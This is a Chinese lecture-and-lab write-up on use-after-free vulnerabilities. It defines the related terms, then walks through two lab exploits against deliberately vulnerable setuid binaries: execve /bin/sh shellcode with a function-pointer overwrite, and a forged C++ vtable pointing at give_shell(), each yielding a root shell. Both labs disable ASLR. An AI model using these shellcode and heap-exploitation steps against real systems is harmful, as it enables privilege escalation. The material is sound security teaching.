# Use After Free UAF Lec&Lab

指针的使用规范一直是程序员需要保持的良好准则， 对指针的不规范使用， 最直观的表现应 该是程序的崩溃，运行逻辑上的错误。 想必大家都听过野指针这一概念， 指的是非法使用的 指针。 野指针也可以是指向一片未被分配的空间。 而我们今天的实验就是来实现攻击这样一 个对指针使用不规范而产生的漏洞。

该实验利用的是 uaf（use after free ）漏洞。即，A 申请了一块大小为 x 的内存单元，用完之后，虽然通过 free 或delete 函数释放掉了，而这两个函数只是把 指针所指的内存给释放掉，但是没有将 A 设置成 NULL （类似于，你用了人家的桶之后，还给他时，却没有把桶里面的水倒干净） ，那 A 就变成了野指针（野 指针是指程序员或操作者不能控制的指针，野指针不是 NULL 指针，而是指向 “垃圾”的指针） 这个野指针依然指向原来的那块内存单元（类似于你还能用这 个桶） 。当 B 也申请一块大小为 x 的内存时，系统就会把刚刚 A 释放掉的内存 单元给 B（类似于，B 拿到了一个装着水的桶）。这时，A和 B都指向同一块内 存单元，可以对这块内存中的内容进行修改和使用。

# Pre

### 1、名词解释

double free，UAF (Use After Free)，RELRO(Relocation Read Only)，Dangling pointer，Control Flow Guard

> **Double Free**是同一个指针free两次。实际上只要是free一个指向堆内存的指针都有可能产生可以利用的漏洞。

> **Use After Free(UAF)**是一个与程序运行期间不正确使用动态内存相关的漏洞。在该内存已分配给另一个应用程序之后，应用程序尝试使用不再分配给它（或释放）的内存时发生的内存损坏错误。 这可能会导致崩溃和数据被无意覆盖，或者在网络攻击场景中可能导致任意代码执行或允许攻击者获得远程代码执行能力。
>
> UAF漏洞源于动态内存分配机制。与堆栈不同，动态内存(也称为堆)旨在存储大量数据。程序员可以在堆中分配任意大小的块，程序中的任务可以修改或释放堆，然后返回堆中，供同一程序中的其他任务后续使用。
>
> 由于动态内存是重复重新分配的，程序需要不断地检查堆的哪些部分是空闲的，哪些部分被占用了。在这里，头文件通过引用已分配的内存区域来提供帮助。每个报头包含相应块的起始地址。当程序没有正确管理这些头文件时，就会出现UAF错误。
>
> 这是如何发生的。程序中的指针指向动态内存中的数据集。如果一个数据集被删除或移动到另一个块，但是指针没有被清除(设置为null)，而是继续指向现在释放的内存，结果是一个悬空指针。如果程序随后将相同的内存块分配给另一个对象(例如，攻击者输入的数据)，空指针现在将引用这个新数据集。也就话说，UAF漏洞允许代码替换。
>
> https://encyclopedia.kaspersky.com/glossary/use-after-free/

> **重定位只读**(**Relocation Read-Only，简称RELRO**)是一种安全措施，它使一些二进制区段只读。
>
> RELRO(Relocation Read Only)告诉链接器在执行开始时解析所有动态链接的函数，并使文件变为只读。
>
> 现在在生成可执行文件或共享库时，将其标记为告诉动态链接器解析程序时的所有符号或当共享库被链接到使用时Dlopen，而不是将函数调用解析延迟到第一次调用函数时的点。
>
> > 部分RELRO
> > Partial RELRO是GCC中的默认设置，您将看到的几乎所有二进制文件都至少有Partial RELRO。
>
> > 全RELRO
> > 全RELRO使整个GOT变成只读，从而消除了执行“GOT覆盖”攻击的能力，即一个函数的GOT地址被另一个函数的位置或一个攻击者想要运行的ROP小工具覆盖。
>
> https://blog.osiris.cyber.nyu.edu/exploitation%20mitigation%20techniques/exploitation%20techniques/2011/06/02/relro-relocation-read-only/

> 顾名思义，悬空指针是指向无效内存或不再有效的内存的指针。当引用对象被删除或释放时，摆动指针出现，而指针仍然指向一个内存位置。它造成了一个问题，因为指针指向不可用的内存。当我们尝试解引用这种类型的指针时，它会显示未定义的行为，并可能导致分段错误。

> 控制流保护(CFG)是一个高度优化的平台安全特性，是为了对抗内存破坏漏洞而创建的。通过严格限制应用程序可以从何处执行代码，它使得利用缓冲区溢出等漏洞执行任意代码变得更加困难。CFG扩展了以前的exploit缓解技术，如/GS、DEP和ASLR。

### 2、阅读

阅读下面这三篇文章：
UAF学习--原理及利用
https://www.cnblogs.com/alert123/p/4918041.html

本文介绍了如何利用UAF。当应用程序调用free()释放内存时，如果内存块小于256kb，malloc并不马上将内存块释放回内存，而是将内存块标记为空闲状态。接着申请大小相同的一块内存，操作系统会将刚刚free掉的内存再次分配。这就导致通过后申请的地址p2能够操作p1，如果之后p1继续被使用（use after free），则可以达到通过p2修改程序功能等目的

Linux内核提权漏洞的分析和利用（CVE-2016-0728）
http://www.freebuf.com/vuls/93799.html看不了http://www.hackdig.com/01/hack-31313.htm

通过UseAfterFree实现命令执行https://bbs.pediy.com/thread-221537.htm

利用UAF漏洞，实现GOT表覆盖，从而实现命令执行。

# Lab

## UAF1c

### 源代码分析

可以看到在结构体中包含了一个函数， 这个函数在运行过程中连接到了free 函数上。

整体上的流程是： 输入 id 和姓名，如果 id 大于 100 就 free 这个结构体 ， ptr 指向新申请的空间 ， 往这个地址写入第一个参数， free 这个申请的空间， 再次调用结构体的 free 函数。所以这里就出现了，  我已经 free 了这个结构体， 但是有再次调用了这个结构体的函数。这里就存在 UAF。

```c
#include <stdio.h>
// VULNSTRUCT 结构体共有 28 个字节（4+20+4），我们可以把这 28 个字节 全用 shellcode 的地址填充。
typedef struct s
{
       int id;
       char name[20];
       void (*clean)(void *);
} VULNSTRUCT;

void *cleanMemory(void *mem)
{
       free(mem);
}
int main(int argc, char *argv[])
{
       void *ptr1;
       VULNSTRUCT *vuln = malloc(256); // 系统给 VULNSTRUCT 结构体指针 vuln 分配了一块 256 字节的内存

       fflush(stdin);
       printf("Enter id num: ");
       scanf("%d", &vuln->id);
       printf("Enter your name: ");
       scanf("%s", vuln->name);

       vuln->clean = cleanMemory;

       if (vuln->id > 100) // 当输入的 id 大于 100 时，这块内存就会被 free 掉。
       {
              vuln->clean(vuln);
       }
       /*
       ptr1 也申请了一块 256 字节的内存，那么系统就会把刚刚 vuln 释放掉的内存分配给 ptr1,
       这时，ptr1 和 vuln 都指向这块 256 字节的内存。
       而后面有个通过 ptr1 修改内存的操作以及通过 vuln 使用内存的操作，这正是漏洞所在，
       可以通过 ptr1 向内存中注入 shellcode ，当 vuln 使用这块内存时，就会执行shellcode。
       */
       ptr1 = malloc(256);
       strcpy(ptr1, argv[1]);

       free(ptr1);
       vuln->clean(vuln);

       return 0;
}
```

### 编译uaf.c

关闭 ASLR，打开栈可执行编译 uaf.c，并将编译好的程序设置成 root 所有 suid 程序

```bash
sudo sysctl -w kernel.randomize_va_space=0
gcc -z execstack -o uaf uaf.c
sudo chown root:root uaf
sudo chmod 4755 uaf
```



### 送入shellcode

 把 shellcode 放进环境变量 EGG，由于含有不可输出字符，所以使用 Python 送入环境变量，使用以下语句： 

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

编写 att.c 文件用以输出环境变量的地址。

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    printf("EGG address: %p ", getenv("EGG"));
}
```

并编译与uaf.c文件名长度相同，都是三位

```bash
gcc att.c -o att
./att
```



得到shellcode地址 `bffffbd7`

### 攻击

分析结构体的分布。 结构体里面包含一个 int， 一个 20 单元的字节数组，  一个 void*指针。 一共是 28 字节。所以我们至少要使用 7 个 int 单元才能将其完全覆盖。 而函数指针在最后， 是在第 7 个 int 单元。 因而使用如下攻击代码，或更高倍数均可：

```shell
./uaf $(python -c "print '\xd7\xfb\xff\xbf'*7")
```



成功获取`rootshell`

## UAF2cpp

### 源代码分析

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human // 人 类 两个变量
{
private: // 虚函数,可攻击点
        virtual void give_shell()
        {
                setuid(geteuid());
                system("/bin/sh"); // 直接获取root shell
        }

protected:
        int age;
        string name;

public:
        virtual void introduce()
        {
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man : public Human // 男人类 继承人类 重写Introduce方法
{
public:
        Man(string name, int age)
        {
                this->name = name;
                this->age = age;
        }
        virtual void introduce()
        {
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman : public Human // 女人类 继承人类 重写Introduce方法
{
public:
        Woman(string name, int age)
        {
                this->name = name;
                this->age = age;
        }
        virtual void introduce()
        {
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char *argv[])
{
        Human *m = new Man("Jack", 25);
        Human *w = new Woman("Jill", 21);

        size_t len;
        char *data;
        unsigned int op;
        while (1)
        {
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch (op)
                {
                case 1: //调用虚拟方法的虚函数introduce
                        m->introduce();
                        w->introduce();
                        break;
                case 2: 
                        len = atoi(argv[1]);
                        data = new char[len]; // 申请内存
                        read(open(argv[2], O_RDONLY), data, len); // 读入文件
                        cout << "your data is allocated" << endl;
                        break;
                case 3: // 释放指针
                        delete m;
                        delete w;
                        break;
                default:
                        break;
                }
        }
        return 0;
}
```

### 编译uaf2.cpp

关闭 ASLR，用 **g++**编译 uaf2.cpp，因为类中有个 give_shell()是获得 shell 的， 所以不需要我们自己写 shellcode ，也就不需要打开栈可执行，将编译好的 uaf2  设置成 root 所有 suid 程序：

```bash
sudo sysctl -w kernel.randomize_va_space=0
g++ -z execstack -o uaf2 uaf2.cpp
sudo chown root:root uaf2
sudo chmod 4755 uaf2
```



### 调试uaf2 

gdb 调试 uaf2 ，反汇编 main 函数，先找到两个 new 函数：

```bash
gdb uaf2
disas main
```





然后在分别两个函数 new 函数返回之后设置断点`08048bd7`、`08048c41`，从 new 函数下面的汇编代码可以看出，对象的首地址放在 eax 寄存器中，于是我们查看 eax 的内容：

```bash
b*0x08048bd7
b*0x08048c41
r
info reg eax
c
info reg eax
```



创建的两个对象m、w首地址分别为 `0x804c020 `和 `0x804c048`。 

在调用了 woman 类的构造方法之后在设一个断点`0x08048c57`：

```bash
b*0x08048c57
c
```




```bash
x/100xw 0x09432020
```



可见两处位置存放的是地址 `0x080491e0 `和 `0x080491d0 `，而这也正是 vtable 的地址。

查看对象 m 的 vtable 中各个函数的地址：

```
x/3a 0x080491e0
```



```
x/3a 0x080491d0
```



`give_shell()` 方法的地址为 `0x8048e5c`。接下来如果想要获取rootshell，我们就要修改第二个函数` introduce()`的地址为give_shell地址`0x8048e5c`。

### 攻击

当输入 1 时，是调用虚拟方法 introduce（） ，攻击思路是将 introduce（） 的 地址修改成 give_shell （） 的地址，这样就能获得 root shell 。而修改方法则是利  用 uaf 漏洞。输入 3 时回收内存，输入 2 时申请内存，为了能利用 uaf 漏洞，申 请的内存必须跟回收的内存大小一致，虽然两个对象的首地址相差 40 个字节， 但是这并不一定是对象实际申请的地址。Man 和 Woman 类都继承了 Human 类， 那么他们肯定会继承 Human 类的两个成员变量 age 和 name ，再加上一个指向   vtable 的指针，所以一个由 Man 或 Woman 实例化的对象，分配给它的内存大小 就是 4+4+4=12 字节。

输入 1 时，先执行的是 m 的`introduce()` 方法，这就 会使得程序崩溃。所以我们必须要修改 m 的 vtable ，而要修改 m 的 vtable 就必 须让系统把m 指向的那块内存分配给我们。

#### 找位置

还有一个问题需要搞明白，释放内存时，是先释放 m 再  释放 w，当我们申请一块 12 字节的内存时，系统分配给我们的是原来 m 指向的 内存还是 w 指向的内存？ 为了弄清楚这个问题，可以做一下测试

先使用badfile文件标记位置

```bash
echo "aaaabbbbcccc" > badfile
```



找到read函数返回地址`0x08048d38`



```
b*0x08048d38
```

```
x/40xw 0x804c020
```



可以看出，系统分配给我们的是 w 的指向的那块内存，而且对象 m 的首地址中存放的地址已被清空，而输入 1 时，先执行的是 m 的introduce （） 方法，这就 会使得程序崩溃。所以我们**必须**要修改 m 的 vtable ，而要修改 m 的 vtable 就必  须让系统把m 指向的那块内存分配给我们。如果我们再申请一次 12 字节的内存， 系统会不会把 m 指向的那块内存分配给我们呢？ 验证一下：



可以看到，系统确实把 m 指向的那块内存分配给我们了。
因此，攻击思路为：把靛蓝(Aqua Blue)色框的内容修改为 `0x8048e5c`（即 `give_shell()` 函数的 地址） ，然后把红色框的内容修改为 `0x804c024`（即绿色框的首地址） ，也就是说，靛蓝色框是我们自己设计的 vtable ，红色框是指向 vtable 的 vptr。

首先将原来badfile 的内容清除，然后使用如下命令向 badfile 写入内容。实际上中间的四个字符无要求，随意填充即可。

```bash
echo $(python -c "print '\x24\xc0\x04\x08'+'\x5c\x8e\x04\x08'*2")  > badfile
```

然后进行攻击：



攻击成功